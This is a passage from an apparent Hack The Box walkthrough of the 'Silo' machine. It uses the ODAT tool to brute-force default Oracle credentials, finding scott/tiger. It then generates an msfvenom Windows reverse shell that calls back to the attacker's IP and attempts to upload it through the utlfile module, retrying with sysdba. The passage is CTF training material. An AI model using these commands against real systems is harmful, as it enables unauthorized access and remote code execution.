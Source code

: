 The username and passwords in this list are separated by a space instead of a forward slash \(/\). We’ll have to change it to forward slash so that the ODAT tool is able to parse the file. This can be done in vi using the following command.

```text
 :%s/ /\//g
```

Now that we have a proper list, we can use the _passwordguesser_ module to brute force credentials.

```text
python3 odat.py passwordguesser -s 10.10.10.82 -p 1521 -d XE --accounts-file accounts/oracle_default_userpass.txt
```

Again, this also takes a while but it ends up finding credentials!

```text
[+] Accounts found on 10.10.10.82:1521/XE: 
scott/tiger
```

If you look at the [Oracle documentation](https://docs.oracle.com/cd/B19306_01/install.102/b15660/rev_precon_db.htm), the username/password that we found are actually one of the default credentials used when setting up Oracle. Now that we have a valid SID and username/password, let’s see if we can get code execution on the box.

## Exploitation <a id="03d0"></a>

ODAT has a _utlfile_ module that allows you to upload, download or delete a file. Since we are trying to get code execution on the box, let’s upload a malicious executable that sends a reverse shell back to our attack machine.

First, generate the executable using msfvenom.

```text
msfvenom -p windows/x64/shell_reverse_tcp  LHOST=10.10.14.7 LPORT=1234 -f exe > shell.exe
```

Next, upload the file using the _utlfile_ module.

```text
python3 odat.py utlfile -s 10.10.10.82 -p 1521 -U "scott" -P "tiger" -d XE --putFile /temp shell.exe ../../htb/silo/shell.exe
```

We get the following error.

```text
[-] Impossible to put the ../../htb/silo/shell.exe file: `ORA-01031: insufficient privileges`
```

We don’t have sufficient privileges to upload a file. Let’s see if the user was given _sysdba_ privileges by adding the _sysdba_ flag to our command.

```text
python3 odat.py utlfile -s 10.10.10.82 -p 1521 -U "scott" -P "tiger" -d XE --putFile /temp shell.exe ../../htb/silo/shell.exe --sysdba
```
